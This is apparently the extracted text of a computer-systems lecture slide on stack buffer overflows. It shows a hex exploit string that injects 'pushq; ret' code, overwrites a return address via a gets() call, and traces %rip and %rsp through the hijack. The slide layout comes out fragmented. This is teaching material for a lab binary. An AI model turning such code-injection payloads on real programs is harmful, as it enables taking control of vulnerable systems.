

# How’d That Happen?
back-again-string.txt
68 48 06 40 00 c3 00 00   // pushq $0x400648; ret
00 00 00 00 00 00 00 00
F8 DF FF FF FF 7F 00 00   // this return address is on the stack

40
06
48
00
00
00
00
00

40
06
48
00
00
00
00
00
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
06
ACK
48
'H'
68
'h'
40
'@'
00
NUL
00
NUL
C3
???
00
NUL

FF
DF
F8
FF
00
00
7F
FF
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
00
NUL
06
ACK
48
'H'
68
'h'
40
'@'
00
NUL
00
NUL
C3
???
00
NUL

%rsp = 0x7FFFFFFFE010
%rsp = 0x7FFFFFFFE010
%rsp = 0x7FFFFFFFE008
%rsp = 0x7FFFFFFFE008
Slide by Bohn
%rip =	0x400648 – in caller()
	mov    $0x400730,%edi
%rip =	0x400639
	retq
%rip =	0x7FFFFFFFDFFD
	ret
%rip =	0x400635
	add    $0x18,%rsp
%rip =	0x40062B
	leaq   0x8(%rsp),%rdi
%rip =	0x400626
	callq  4004f0 <gets@plt>
%rip =	0x7FFFFFFFDFF8
	pushq 0x400648
ret
     pushq 0x400648
%rsp = 0x7FFFFFFFDFF0
Programming at the Hardware/Software Interface
31